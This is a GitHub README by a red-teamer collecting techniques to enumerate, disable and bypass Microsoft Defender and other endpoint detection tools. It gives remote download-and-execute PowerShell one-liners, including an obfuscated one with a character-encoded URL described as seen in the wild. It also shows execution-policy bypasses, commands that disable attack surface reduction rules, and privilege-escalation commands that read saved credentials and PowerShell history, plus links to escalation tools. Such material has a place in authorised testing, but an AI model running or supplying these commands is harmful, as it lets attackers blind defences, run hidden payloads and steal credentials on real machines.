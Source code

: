 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |fkmde.ps1 --enum| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)
* [Ideas for LPE](#Ideas-for-LPE)

## Enumeration of MDE
### Defender for Endpoint

[fkmde.ps1]([https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1](https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1)) can be run with multiple parameters and modes to suit different use cases and operational environments. Below are the key execution types and their respective usage examples, each catering to specific functionality and user requirements.

  ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope as follows.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force

```
> [!IMPORTANT]
> However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script as follows.

```powershell
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

### officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)
![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

### wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html

## Ideas for LPE

```powershell
net accounts
cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

```powershell
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

WSL
```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

https://github.com/antonioCoco/RunasCs
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1
https://github.com/BeichenDream/GodPotato
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe

https://github.com/BlackShell256/Invoke-UAC



